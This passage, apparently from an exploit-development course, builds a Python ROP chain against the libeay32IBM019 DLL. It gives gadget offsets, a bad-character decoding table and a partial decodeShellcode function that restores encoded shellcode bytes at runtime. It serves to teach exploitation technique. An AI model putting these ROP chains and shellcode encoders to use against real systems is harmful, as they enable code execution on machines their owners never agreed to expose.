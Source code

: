 The updated alignment ROP chain

# Align EAX with shellcode
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xfffff9e5))	
rop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
Now that we have aligned EAX with the beginning of the shellcode, we need to create a method that dynamically adds a ROP chain for each bad character.

The generic ROP chain prototype is shown
rop += pack("<L", (dllBase + 0x117c))               # pop ecx ; ret
rop += pack("<L", (offset to next bad characters))
rop += pack("<L", (dllBase + 0x4a7b6))              # sub eax, ecx ; pop ebx ; ret
rop += pack("<L", (value to add))                   # values in BH
rop += pack("<L", (dllBase + 0x468ee))              # add [eax+1], bh ; ret

For each of these ROP chains, our code must calculate the offset from the previous bad character to the next. It must also ensure that the offset is popped into ECX, as highlighted in the listing above ("offset to next bad characters").

Because the value is subtracted from EAX, we'll need to use its negative counterpart.

We also need to add a value to the replacement character to restore the original bad character. We'll place this value into the second highlighted section from Listing 83. We must keep in mind that the value popped in EBX cannot contain a bad character, and only the byte in BH is used in the restore action.

Let's start developing the decoding scheme.

By performing the simple math shown in Listing 84, we obtain usable values for our decoding scheme.

0x01 + 0xff = 0x00
0xf9 + 0x10 = 0x09
0x04 + 0x06 = 0x0a
0x04 + 0x07 = 0x0b
0x04 + 0x08 = 0x0c
0x08 + 0x05 = 0x0d
0x01 + 0x1f = 0x20

Next we'll create the decodeShellcode method, which will use the values shown above to generate the ROP chain to decode the shellcode.

decodeShellcode will require three arguments; the base address of libeay32IBM019, the indexes of the bad characters in the shellcode, and the unencoded shellcode.

The code for decodeShellcode is shown in Listing 85.

def decodeShellcode(dllBase, badIndex, shellcode):
        BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20"
        CHARSTOADD = b"\x01\xf9\x04\x04\x04\x08\x01"
        restoreRop = b""
        for i in range(len(badIndex)):
                if i == 0:
                        offset = badIndex[i]
                else:
                        offset = badIndex[i] - badIndex[i-1]
                neg_offset = (-offset) & 0xffffffff
                value = 0
                for j in range(len(BADCHARS)):
                        if shellcode[badIndex[i]] == BADCHARS[j]:
                                value = CHARSTOADD[j]
                value = (value << 8) | 0x11110011
